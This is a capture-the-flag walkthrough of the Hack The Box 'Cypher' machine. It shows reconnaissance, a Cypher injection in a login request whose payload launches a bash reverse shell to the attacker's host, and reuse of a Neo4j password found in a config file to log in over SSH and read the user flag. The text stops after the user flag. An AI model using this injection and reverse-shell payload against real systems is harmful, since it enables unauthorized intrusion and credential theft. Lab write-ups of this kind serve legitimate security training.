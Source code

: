 # Cypher
HTB-Cypher

└─# nmap -sS 10.10.11.57

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

└─# nano /etc/hosts
10.10.11.57 cypher.htb

└─# dirsearch -u "http://cypher.htb" -t 50

**[11:35:00] Starting:                                                                                                
[11:35:10] 200 -    5KB - /about                                            
[11:35:10] 200 -    5KB - /about.html                                       
[11:35:25] 307 -    0B  - /api  ->  /api/docs                               
[11:35:25] 404 -   22B  - /api-docs
[11:35:25] 404 -   22B  - /api.log
[11:35:25] 404 -   22B  - /api.py
[11:35:25] 404 -   22B  - /api-doc
[11:35:25] 404 -   22B  - /api/__swagger__/
[11:35:25] 404 -   22B  - /api.php                                          
[11:35:25] 404 -   22B  - /api/2/explore/                                   
[11:35:25] 307 -    0B  - /api/  ->  http://cypher.htb/api/api
[11:35:25] 404 -   22B  - /api/_swagger_/
[11:35:25] 404 -   22B  - /api/apidocs
[11:35:25] 404 -   22B  - /api/api
[11:35:25] 404 -   22B  - /api/api-docs
[11:35:25] 404 -   22B  - /api/2/issue/createmeta
[11:35:25] 404 -   22B  - /api/application.wadl
[11:35:25] 404 -   22B  - /api/cask/graphql
[11:35:25] 404 -   22B  - /api/batch
[11:35:25] 404 -   22B  - /api/config
[11:35:25] 404 -   22B  - /api/apidocs/swagger.json
[11:35:25] 404 -   22B  - /api/docs/
[11:35:25] 404 -   22B  - /api/error_log
[11:35:25] 404 -   22B  - /api/jsonws/invoke                                
[11:35:25] 404 -   22B  - /api/login.json
[11:35:25] 404 -   22B  - /api/package_search/v4/documentation
[11:35:25] 404 -   22B  - /api/proxy
[11:35:25] 404 -   22B  - /api/spec/swagger.json                            
[11:35:25] 404 -   22B  - /api/swagger                                      
[11:35:25] 404 -   22B  - /api/snapshots
[11:35:25] 404 -   22B  - /api/swagger.yaml
[11:35:25] 404 -   22B  - /api/swagger.json
[11:35:25] 404 -   22B  - /api/swagger/ui/index
[11:35:25] 404 -   22B  - /api/swagger/swagger
[11:35:25] 404 -   22B  - /api/swagger.yml
[11:35:25] 404 -   22B  - /api/docs
[11:35:25] 404 -   22B  - /api/profile
[11:35:25] 404 -   22B  - /api/v1/swagger.json
[11:35:25] 404 -   22B  - /api/jsonws
[11:35:25] 404 -   22B  - /api/v1/                                          
[11:35:25] 404 -   22B  - /api/v2
[11:35:25] 404 -   22B  - /api/timelion/run
[11:35:25] 404 -   22B  - /api/v1
[11:35:25] 404 -   22B  - /api/v1/swagger.yaml
[11:35:25] 404 -   22B  - /api/v2/
[11:35:25] 404 -   22B  - /api/v2/swagger.json
[11:35:25] 404 -   22B  - /api/v2/swagger.yaml
[11:35:25] 404 -   22B  - /api/v2/helpdesk/discover
[11:35:25] 404 -   22B  - /api/v3
[11:35:25] 404 -   22B  - /api/whoami
[11:35:25] 404 -   22B  - /apidoc
[11:35:25] 404 -   22B  - /api/v4
[11:35:25] 404 -   22B  - /api/version
[11:35:25] 404 -   22B  - /apis
[11:35:25] 404 -   22B  - /apiserver-aggregator-ca.cert
[11:35:25] 404 -   22B  - /apibuild.pyc
[11:35:25] 404 -   22B  - /apiserver-aggregator.key
[11:35:25] 404 -   22B  - /apiserver-client.crt
[11:35:25] 404 -   22B  - /apiserver-key.pem
[11:35:25] 404 -   22B  - /api/vendor/phpunit/phpunit/phpunit
[11:35:25] 404 -   22B  - /apiserver-aggregator.cert
[11:35:25] 404 -   22B  - /apidocs
[11:35:37] 404 -   22B  - /demo.aspx                                        
[11:35:37] 307 -    0B  - /demo/  ->  http://cypher.htb/api/demo            
[11:35:37] 307 -    0B  - /demo  ->  /login                                 
[11:35:37] 404 -   22B  - /demo.php                                         
[11:35:37] 404 -   22B  - /demo.js
[11:35:37] 404 -   22B  - /demos/
[11:35:37] 404 -   22B  - /demo/ojspext/events/globals.jsa                  
[11:35:37] 404 -   22B  - /demo.jsp                                         
[11:35:37] 404 -   22B  - /demo/sql/index.jsp                               
[11:35:37] 404 -   22B  - /demoadmin                                        
[11:35:53] 200 -    4KB - /login                                            
[11:35:53] 200 -    4KB - /login.html                                       
[11:36:29] 301 -  178B  - /testing  ->  http://cypher.htb/testing/ **

Find http://cypher.htb/testing/ 

Go to http://cypher.htb/testing/

Find custom-apoc-extension-1.0-SNAPSHOT.jar 

Extract .jar and find Neo4j Database

Find lot of Neo4j exploit database and Cypher Injection

Open Burpsuite

Try
{
    "username": "admin'",
    "password": "123"
}

HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Mon, 31 Mar 2025 10:37:13 GMT
Content-Length: 3457
Connection: keep-alive

.
.
.
 {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 60 (offset: 59))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash"
                                                            ^}

After long long reseach I try this injection I try user and not admin and push in the injection the RCE :

{
    "username": "user' return h.value as a union CALL custom.getUrlStatusCode(\"http://cypher.htb; bash -c 'bash -i >& /dev/tcp/10.10.X.X/4444 0>&1'\") YIELD statusCode AS a RETURN a;//",
    "password": "123"
}

And Go it !

└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.11.57] XXXXX
blablablabla
neo4j@cypher:/$ 

Let's go now, research little flag user.txt

neo4j@cypher:/$ ls
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var

Go home

neo4j@cypher:/$ cd /home

cd /home

neo4j@cypher:/home$ ls

graphasm

neo4j@cypher:/home$ cd graphasm

neo4j@cypher:/home/graphasm$ ls
bbot_preset.yml
user.txt

neo4j@cypher:/home/graphasm$ cat user.txt
cat: user.txt: Permission denied

hmm ok this is medium machine you know haha
but ..

neo4j@cypher:/home/graphasm$ ls -la                  

total 36
drwxr-xr-x 4 graphasm graphasm 4096 Feb 17 12:40 .
drwxr-xr-x 3 root     root     4096 Oct  8 17:58 ..
lrwxrwxrwx 1 root     root        9 Oct  8 18:06 .bash_history -> /dev/null
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 bbot_preset.yml
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .cache
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 .profile
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .ssh
-rw-r----- 1 root     graphasm   33 Mar 31 04:09 user.txt

neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.xxxxxxxxxxxxx

Got it password ! 

Go to ssh connect from graphasm

└─# ssh graphasm@10.10.11.57
put password neo4j

.
.
And 
let'sgo
graphasm@cypher:~$ ls
bbot_preset.yml  user.txt

graphasm@cypher:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXX


